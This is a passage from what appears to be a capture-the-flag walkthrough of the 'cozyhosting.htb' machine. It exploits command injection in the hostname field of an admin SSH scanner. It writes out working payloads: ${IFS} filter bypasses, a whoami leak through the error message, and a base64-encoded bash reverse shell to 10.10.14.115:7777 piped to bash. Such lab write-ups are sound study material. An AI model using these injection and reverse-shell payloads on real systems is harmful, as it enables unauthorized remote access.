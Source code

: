 
Inside the portal we can find an ssh based scanner tool which takes a hostname and an IP (and a pre-existing key the admin should have). I toss in a basic IP with no hostname and receive the following error in the url:

```bash
IP: 1.1.1.1
Hostname: 

http://cozyhosting.htb/admin?error=usage:%20ssh%20[-46AaCfGgKkMNnqsTtVvXxYy]%20[-B%20bind_interface]%20%20%20%20%20%20%20%20%20%20%20[-b%20bind_address]%20[-c%20cipher_spec]%20[-D%20[bind_address:]port]%20%20%20%20%20%20%20%20%20%20%20[-E%20log_file]%20[-e%20escape_char]%20[-F%20configfile]%20[-I%20pkcs11]%20%20%20%20%20%20%20%20%20%20%20[-i%20identity_file]%20[-J%20[user@]host[:port]]%20[-L%20address]%20%20%20%20%20%20%20%20%20%20%20[-l%20login_name]%20[-m%20mac_spec]%20[-O%20ctl_cmd]%20[-o%20option]%20[-p%20port]%20%20%20%20%20%20%20%20%20%20%20[-Q%20query_option]%20[-R%20address]%20[-S%20ctl_path]%20[-W%20host:port]%20%20%20%20%20%20%20%20%20%20%20[-w%20local_tun[:remote_tun]]%20destination%20[command%20[argument%20...]]
```

The backend is probably running `ssh given_host@given_IP -i key` When erroring out in this fashion I could probably read any local file so long as it takes the form of an error but I can do better here. The only restrictions before me are the host IP can only be an address, whereas the hostname cannot have whitespace. The easiest way around that is to use a variable with whitespace in it for every space I need.

So I'll use an ip of **1.1.1.1** and a hostname of `;${IFS}echo${IFS}raccoon;`. The `${IFS}` is a variable that contains one whitespace, and the semicolons end the previous command and then this one. The results:

```bash
IP: 1.1.1.1
Hostname: ;${IFS}echo${IFS}raccoon;

http://cozyhosting.htb/admin?error=usage:%20ssh%20[-46AaCfGgKkMNnqsTtVvXxYy]%20[-B%20bind_interface]%20%20%20%20%20%20%20%20%20%20%20[-b%20bind_address]%20[-c%20cipher_spec]%20[-D%20[bind_address:]port]%20%20%20%20%20%20%20%20%20%20%20[-E%20log_file]%20[-e%20escape_char]%20[-F%20configfile]%20[-I%20pkcs11]%20%20%20%20%20%20%20%20%20%20%20[-i%20identity_file]%20[-J%20[user@]host[:port]]%20[-L%20address]%20%20%20%20%20%20%20%20%20%20%20[-l%20login_name]%20[-m%20mac_spec]%20[-O%20ctl_cmd]%20[-o%20option]%20[-p%20port]%20%20%20%20%20%20%20%20%20%20%20[-Q%20query_option]%20[-R%20address]%20[-S%20ctl_path]%20[-W%20host:port]%20%20%20%20%20%20%20%20%20%20%20[-w%20local_tun[:remote_tun]]%20destination%20[command%20[argument%20...]/bin/bash:%20line%201:%20@1.1.1.1:%20command%20not%20found
```

No command output, but it clearly interfered with the error output. I try some other commands to no avail and decide to try set a variable as a command and include it in the error message. `;raccoon=$(whoami);$raccoon` is the payload, and what this does is prepend the variable raccoon to the `@IP` part of the ssh command. 

```
IP: 1.1.1.1
Hostname: ;raccoon=$(whoami);$raccoon

/bin/bash:%20line%201:%20app@1.1.1.1:%20command%20not%20found
```

My first hunch works here but in my head there is still RCE here. I try to base64 encode a shell payload and try running that. This would bypass any funky business that is happening with special characters such as `/ : < > &`. The hostname: `;echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMTUvNzc3NyAwPiYxCg==${IFS}|base64${IFS}-d${IFS}|${IFS}bash;`
